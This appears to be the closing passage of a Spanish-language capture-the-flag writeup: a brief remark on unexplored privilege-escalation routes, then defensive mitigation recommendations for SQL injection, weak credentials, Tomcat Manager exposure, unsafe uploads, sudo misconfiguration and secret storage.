

En el directorio de alice existe una nota adicional. Aunque se exploraron vectores alternativos para escalar privilegios con este usuario (incluyendo procesos en segundo plano ejecutándose como root), dado que las flags fueron obtenidas mediante el vector anterior, se decidió no incluir esa metodología en este writeup.

---

## Conclusiones y Recomendaciones

### Recomendaciones de Mitigación

- **SQL Injection (SQLi):** Validar y parametrizar todas las consultas SQL. Usar consultas preparadas (prepared statements) y aplicar escape en entradas de usuario. Implementar WAF para detección temprana.
- **Credenciales débiles/almacenadas:** Forzar políticas de contraseñas robustas, evitar almacenar credenciales en texto plano en la base de datos o en archivos. Utilizar hashing seguro (bcrypt/argon2) con sal para contraseñas.
- **Ataques de fuerza bruta:** Implementar mecanismos de bloqueo de cuenta, throttling y autenticación multifactor (MFA) para accesos privilegiados.
- **Acceso a Tomcat / Gestión web:** Revisar y restringir el acceso al Tomcat Manager; deshabilitar despliegues remotos en entornos de producción. Cambiar credenciales por defecto y usar autenticación fuerte.
- **Carga de archivos inseguros:** Validar y filtrar extensiones y tipos MIME, y restringir permisos de escritura en directorios de despliegue. Evitar permitir despliegues o cargas que puedan ejecutar código arbitrario.
- **Sudo y configuración de permisos:** Revisar entradas de `sudoers` y minimizar comandos que puedan ejecutarse sin contraseña. Evitar permitir la modificación de binarios o scripts ejecutados como root por cuentas de baja integridad.
- **Gestión de secretos y archivos KDBX:** Proteger archivos de contraseñas con cifrado fuerte y almacenar las claves/contraseñas en gestores seguros. Evitar transferencias inseguras de archivos y aplicar control de acceso por usuario.
- **Auditoría y monitoreo:** Habilitar registro detallado (logging) y monitoreo para detección de actividad sospechosa, y realizar revisiones periódicas de seguridad y pruebas de penetración.

---


